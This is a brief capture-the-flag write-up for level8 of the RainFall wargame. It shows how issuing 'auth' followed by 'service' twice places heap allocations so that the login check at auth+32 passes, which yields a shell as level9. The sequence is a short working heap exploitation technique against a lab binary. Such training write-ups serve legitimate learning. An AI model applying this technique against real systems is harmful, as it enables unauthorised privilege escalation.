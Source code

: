### The program wait for one of the command

    - auth
    - service
    - reset
    - login

The goal is to set the auth variable value to 32

```
*auth + 32 != 0
```


```
level8@RainFall:~$ ./level8
(nil), (nil)
auth 
0x804a008, (nil)
service
0x804a008, 0x804a018
```

After this combination of commands the padding between auth and service are 16. This means that these pointers are located one after the other
To get 32 offset we just need to use service command twice after auth


```
level8@RainFall:~$ ./level8 
(nil), (nil) 
 auth
(nil), (nil) 
auth 
0x804a008, (nil) 
service
0x804a008, 0x804a018 
service
0x804a008, 0x804a028 
login
$ whoami
level9
```